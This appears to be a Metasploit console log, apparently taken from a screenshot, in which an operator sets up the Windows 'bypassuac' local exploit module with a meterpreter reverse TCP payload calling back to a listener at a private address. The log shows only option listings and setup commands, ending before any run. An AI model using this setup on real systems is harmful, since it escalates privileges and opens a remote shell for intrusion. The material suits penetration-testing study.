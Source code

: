 ```shell
Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.163.140  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf6 exploit(windows/local/bypassuac) > set LHOST 192.168.2.5
LHOST => 192.168.2.5
msf6 exploit(windows/local/bypassuac) > set payload windows/meterpreter/reverse_tcp_allports 
payload => windows/meterpreter/reverse_tcp_allports
msf6 exploit(windows/local/bypassuac) > options
Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: PSH, EXE)


Payload options (windows/meterpreter/reverse_tcp_allports):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The starting port number to connect back on


Exploit target:

   Id  Name
   --  ----
   0   Windows x86

msf6 exploit(windows/local/bypassuac) > options

Module options (exploit/windows/local/bypassuac):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   SESSION                     yes       The session to run this module on
   TECHNIQUE  EXE              yes       Technique to use if UAC is turned off (Accepted: PSH, EXE)


Payload options (windows/meterpreter/reverse_tcp_allports):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.2.5      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The starting port number to connect back on


```